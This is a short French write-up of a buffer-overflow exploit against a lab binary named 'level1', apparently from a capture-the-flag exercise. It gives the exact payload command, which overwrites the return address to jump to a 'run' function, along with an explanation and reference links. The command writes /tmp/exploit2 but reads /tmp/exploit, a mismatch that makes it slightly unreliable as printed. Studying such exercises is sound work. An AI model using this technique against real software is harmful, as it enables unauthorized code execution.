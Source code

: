 # Exploit: Buffer Overflow avec redirection de flux d'exécution

**Commande**:  
```bash
python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit2; cat /tmp/exploit - | ./level1
```
**Explication**:  
Dans cet exploit, nous avons dépassé la taille du tampon prévu en imprimant 76 caractères "a", suivis de l’adresse 0x08 04 84 44, qui est l’adresse de la fonction **run**. Cette adresse sera utilisée comme nouvelle adresse de retour, permettant ainsi de rediriger l’exécution vers la fonction **run**.  
On peut obtenir l’adresse de **run** avec `gdb` ou `objdump -d`.

**Ressources**:  
- [Buffer Overflow Exploit](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)  
- [unix.stackexchange.com](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process)  
- [stackoverflow.com](https://stackoverflow.com/questions/44469372/exploiting-buffer-overflow-using-gets-in-a-simple-c-program)  
- [Overflows : passons à la pratique (kali-linux.fr)](https://www.kali-linux.fr/hacking/overflows-passons-a-la-pratique)